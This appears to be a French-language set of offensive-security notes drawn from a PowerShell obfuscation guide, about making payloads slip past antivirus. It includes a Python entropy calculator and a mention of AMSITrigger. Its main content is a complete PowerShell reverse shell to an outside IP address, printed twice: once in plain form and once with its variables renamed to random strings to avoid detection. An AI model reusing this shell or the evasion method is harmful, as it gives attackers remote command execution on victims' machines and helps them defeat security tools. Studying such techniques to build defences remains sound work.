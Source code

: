 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropie__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python :

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__



```powershell
PS > "$TCPClient = New-Object Net.Sockets.UDPClient('20.235.121.153', 8181);$NetworkStream = $TCPClient.GetStream();$SslStream = New-Object Net.Security.SslStream($NetworkStream,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$false);if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) {$SslStream.Close();exit}$StreamWriter = New-Object IO.StreamWriter($SslStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()};WriteToStream '';while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```

```powershell
PS > "$kpykyyhakxbgfe = New-Object Net.Sockets.UDPClient('20.235.121.153', 8181);$naa1uyzc6a9a526j = $kpykyyhakxbgfe.GetStream();$gyvfl8nd2wmvr0a = New-Object Net.Security.SslStream($naa1uyzc6a9a526j,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$gyvfl8nd2wmvr0a.AuthenticateAsClient('cloudflare-dns.com',$null,$false);if(!$gyvfl8nd2wmvr0a.IsEncrypted -or !$gyvfl8nd2wmvr0a.IsSigned) {$gyvfl8nd2wmvr0a.Close();exit}$z0coq2szpfkxt4 = New-Object IO.StreamWriter($gyvfl8nd2wmvr0a);function WriteToStream ($0yjea14ea1) {[byte[]]$script:Buffer = 0..$kpykyyhakxbgfe.ReceiveBufferSize | % {0};$z0coq2szpfkxt4.Write($0yjea14ea1 + 'SHELL> ');$z0coq2szpfkxt4.Flush()};WriteToStream '';while(($8kwjkmbth = $gyvfl8nd2wmvr0a.Read($2kjs0qho00t, 0, $2kjs0qho00t.Length)) -gt 0) {$glxfjr1s8n02k1zp = ([text.encoding]::UTF8).GetString($2kjs0qho00t, 0, $8kwjkmbth - 1);$15x0e1yh0 = try {Invoke-Expression $glxfjr1s8n02k1zp 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($15x0e1yh0)}$z0coq2szpfkxt4.Close()"
```